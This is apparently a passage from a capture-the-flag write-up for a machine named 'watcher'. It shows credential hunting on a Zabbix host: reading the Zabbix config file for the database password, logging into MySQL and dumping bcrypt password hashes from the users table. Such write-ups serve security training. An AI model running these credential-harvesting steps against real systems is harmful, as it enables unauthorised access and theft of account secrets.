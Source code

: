 ```bash
<SNIP>
```

Based on the results the directory `/usr/share/zabbix` comes into much of interest. We can enumerate configuration files to search for passwords to databases etc.

```bash
zabbix@watcher:/usr/share/zabbix/conf$ cat zabbix.conf.php

<?php                           
// Zabbix GUI configuration file.
$DB['TYPE']                     = 'MYSQL';                                                                           
$DB['SERVER']                   = 'localhost';         
$DB['PORT']                     = '0';
$DB['DATABASE']                 = 'zabbix';
$DB['USER']                     = 'zabbix';
$DB['PASSWORD']                 = '<REDACTED>';

<SNIP>
```

Subsequently, we can utilize the password further enumerate the database of the Zabbix service via `mysql`:

```bash
zabbix@watcher:/usr/share/zabbix/conf$ mysql -h 127.0.0.1 -u zabbix -p
mysql -h 127.0.0.1 -u zabbix -p
Enter password: <REDACTED>

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 680
Server version: 8.0.37-0ubuntu0.22.04.3 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use zabbix;   
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
```

Having a foot in the database, we can poke into the `users` table hoping to find something interesting:

```mysql
mysql> select username,passwd from users;
select username,passwd from users;
+----------+--------------------------------------------------------------+
| username | passwd                                                       |
+----------+--------------------------------------------------------------+
| Admin    | $2y$10$E9fSsSLiu47a1gnTULjx9.YygFRbVotGx4BOIVRTLdEa5OGAxeX5i |
| guest    | $2y$10$89otZrRNmde97rIyzclecuk6LwKAsHN0BcvoOKGjbT.BwMBfm7G06 |
| Frank    | $2y$10$9WT5xXnxSfuFWHf5iJc.yeeHXbGkrU0S/M2LagY.8XRX7EZmh.kbS |
+----------+--------------------------------------------------------------+
3 rows in set (0.00 sec)
```
